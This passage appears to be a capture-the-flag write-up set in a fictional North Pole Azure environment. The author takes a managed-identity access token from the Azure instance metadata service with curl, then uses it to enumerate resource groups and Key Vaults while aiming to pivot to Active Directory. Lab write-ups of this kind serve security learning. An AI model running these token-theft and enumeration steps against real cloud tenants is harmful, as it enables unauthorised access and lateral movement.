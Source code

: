 Did that ^ with: 
```
alabaster@ssh-server-vm:~$ response=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s)
alabaster@ssh-server-vm:~$ access_token=$(echo $response | python -c 'import sys, json; print (json.load(sys.stdin)["access_token"])')
alabaster@ssh-server-vm:~$ echo The managed identities for Azure resources access token is $access_token
```

Query Azure api endpoints. Some require an access token to get to. that's my goal for now: enumerate the Azure environment and find some crucial info to pivot to AD.

Subscription ID (from Azure 101): `2b0942f3-9bca-484b-a508-abdae2db5e64`

Listing the resource groups:
```
alabaster@ssh-server-vm:~$ curl -X GET -H "Authorization: Bearer $access_token" -H "Content-Type: application/json" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourcegroups?api-version=2021-04-01

{"value":[{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1","name":"northpole-rg1","type":"Microsoft.Resources/resourceGroups","location":"eastus","tags":{},"properties":{"provisioningState":"Succeeded"}}]}
```

That tells me I have access to northpole-rg1 (again). 

You can list all resources in a resource group:
```
alabaster@ssh-server-vm:~$ curl -X GET -H "Authorization: Bearer $access_token" -H "Content-Type: application/json" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourcegroups/northpole-rg1/resources?api-version=2021-04-01

{"value":[{

"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv",
"name":"northpole-ssh-certs-kv",
"type":"Microsoft.KeyVault/vaults",
"location":"eastus",
"tags":{}},

{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv",
"name":"northpole-it-kv",
"type":"Microsoft.KeyVault/vaults",
"location":"eastus",
"tags":{}}
]}
```

Ok, looks like I have access to two different KeyVaults. One called `northpole-ssh-certs-kv` and `northpole-it-kv`. I probably need something in the latter. 
